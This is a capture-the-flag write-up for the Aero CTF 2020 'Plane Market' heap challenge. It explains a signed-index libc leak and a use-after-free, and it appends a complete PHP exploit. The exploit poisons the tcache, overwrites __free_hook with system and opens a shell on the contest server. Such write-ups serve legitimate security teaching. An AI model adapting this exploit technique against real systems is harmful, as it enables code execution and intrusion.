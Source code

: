 # Plane Market - Aero CTF 2020 (pwn, 416p, 24 solved)
## Introduction

Plane Market is a pwn task.

An archive containing a binary, a libc and its corresponding loader (`ld.so`).

The binary simulates a plane market in which the user can put planes for sale.

## Reverse engineering

When a new plane is put for sale, the program looks for a empty spot in a global
array, and fills it with a `plane` structure:

```c
struct plane {
	char  *name;
	long   cost;
	time_t date;
	char  *comment;
	size_t nameSize;
	time_t delDate;
};
```

This array can contain up to 16 planes. The program properly checks that the
there is space to sell a new place.

It is possible to delete and check the information of a specific plane on the
market. Both functions check that the user-specified index is inferior to 16.
The deletion function frees the `name` and `comment` pointers.

Finally, it is possible to rename a plane for sale. The program uses the
`nameSize` field to determine how many bytes to read.

## Vulnerability

The binary contains two vulnerabilities : an information leak and a use-after
vulnerability.

While the functions that display and delete a plane check that the user input is
inferior to 16, it stores the user's index in a **signed** integer. It is
possible to read and delete planes with negative indexes.

The use-after-free is somewhat strange : for some reason, renaming a plane will
not check if the plane is deleted if it has been renamed before. (`id ==
last_plane_id`)

## Exploitation

The information leak can be exploited to leak the base address of the libc. By
looking at the information of plane with index -2, it is possible to leak
pointers to `_IO_2_1_stdin_` that lies in the `.bss` section.

```
{?} Enter plane id: -2
---- Plane [-2] ----
Name: (­û
Cost: 0
Time: 140737353910784
Comment: <Empty>
```

```
% grep libc.so /proc/$PID/maps
7ffff7e0f000-7ffff7e34000 [...] libc.so.6
```

`0x7ffff7e0f000 == 140737353910784 - 0x001b9a00`

The use-after-free is a how2heap-like textbook case of `tcache poisoning
attack`. The exploitation goes along these lines:
1. allocate a buffer small enough to fit in the `tcache` bin
2. free it
3. change the first 8 bytes to corrupt the `tcache` linked list
4. allocate twice to get `malloc` return the corrupted pointer
5. leverage arbitrary write primitive to get code execution

A classic way to achieve the last point is to overwrite libc's `__free_hook`
with a pointer to `system`, and call `system("/bin/sh")`.

**Flag**: `Aero{13f96a24f185f0862ea1ecd88c854b12d5a4b7ba85b43dc42e0bb2d187a2ef9b}`

## Appendices

### pwn.php
```php
#!/usr/bin/php
<?php
require_once("Socket.php");

function menu(Tube $t)
{
	$t->expectLine("-------- Plane market --------");
	$t->expectLine("1. Sell plane");
	$t->expectLine("2. Delete plane");
	$t->expectLine("3. View sales list");
	$t->expectLine("4. View plane");
	$t->expectLine("5. Change plane name");
	$t->expectLine("6. View profile");
	$t->expectLine("7. Exit");
	$t->expect("> ");
}

function sell(Tube $t, $name, $cost, $com = null, $size = null, $csize = null)
{
	if(null === $size)
		$size = strlen($name);

	menu($t);
	$t->write("1\n");

	$t->expect("{?} Enter name size: ");
	$t->write("$size\n");

	$t->expect("{?} Enter plane name: ");
	$t->write($name);

	$t->expect("{?} Enter plane cost: ");
	$t->write("$cost\n");

	$t->expect("{?} Do you wanna leave a comment? [Y\N]: ");
	if(null === $com) {
		$t->write("N\n");
	} else {
		if(null === $csize)
			$csize = strlen($com);

		$t->write("Y\n");

		$t->expect("{?} Enter comment size: ");
		$t->write("$csize\n");

		$t->expect("{?} Comment: ");
		$t->write($com);
	}
}

function del(Tube $t, $idx)
{
	menu($t);
	$t->write("2\n");

	$t->expect("{?} Enter plane id: ");
	$t->write("$idx\n");
}

function show(Tube $t, $idx)
{
	menu($t);
	$t->write("4\n");

	$t->expect("{?} Enter plane id: ");
	$t->write("$idx\n");

	$t->expectLine("---- Plane [$idx] ----");
	$t->expect("Name: ");    $name = $t->readLine(); 
	$t->expect("Cost: ");    $cost = $t->readLine();
	$t->expect("Time: ");    $time = $t->readLine();
	$t->expect("Comment: "); $comment = $t->readLine();

	if("<Empty>" === $comment)
		$comment = null;

	return [$name, $cost, $time, $comment];
}

function ren(Tube $t, $idx, $name)
{
	menu($t);
	$t->write("5\n");

	$t->expect("{?} Enter plane id: ");
	$t->write("$idx\n");
	$t->expect("{?} Enter new plane name: ");
	$t->write($name);
}

$t = new Socket("tasks.aeroctf.com", 33087);

$t->expect("{?} Enter name: ");
$t->write("[TFNS] XeR\n");

$leak = show($t, -2);
$libc = $leak[2] - 0x001b9a00; // _IO_2_1_stdin_
printf("[+] libc: %X\n", $libc);

printf("[*] Create and rename plane\n");
sell($t,    "asdfasdf", 1337);
ren($t, 0,  "asdfasdf");

printf("[*] Poison tcache\n");
del($t, 0);
ren($t, 0, pack("Q", $libc + 0x001bc5a8)); // __free_hook


printf("[*] Abuse tcache\n");
sell($t, "/bin/sh\0", 1337);
sell($t, pack("Q", $libc + 0x00046ff0), 1337); // system

printf("[*] Call system\n");
del($t, 0);

printf("[+] Pipe\n");
$t->pipe();
```
